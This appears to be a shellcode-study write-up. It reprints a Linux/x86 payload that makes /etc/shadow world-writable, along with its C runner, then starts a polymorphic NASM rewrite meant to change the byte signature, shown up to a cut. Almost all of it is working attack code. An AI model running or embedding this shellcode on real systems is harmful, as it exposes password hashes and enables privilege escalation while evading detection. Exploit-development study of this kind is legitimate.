 **Size: 33 Bytes**

```c
#include <stdio.h>
 
/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009
 
    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!
 
*/
 
int main()
{
 
    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80
 
    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();
     
    return 0;
}
```

We're going to be working with the assembly comments he provided in his C code. There isn't much room for us to work with here, so we'll most likely be adding junk operations and increasing the size a bit.

```nasm
global _start


section .text

_start:

	xor ecx, ecx		  ; clearing a different register at the start
	mul ecx			  ; this clears both EAX and EDX
	push edx		  ; finally get back around to pushing our null onto the stack but with a 2nd new register
	push dword 0x776f6461     ; this section is the same, but wanted to explain:
	push dword 0x68732f2f     ; we're just pushing '/etc/shadow' onto the stack here 
	push dword 0x6374652f
	mov edi,esp		  ; save stack pointer in different register
	xchg ebx, edi		  ; put stack pointer back into EBX
	push word 0x1ff		  ; push '777' instead of '666' (this is in octal)
	pop ecx
	sub ecx, 0x49		  ; get ECX back down to '666' by subtracting '111'
	mov al,0xf
	int 0x80
	mov al,0x1
```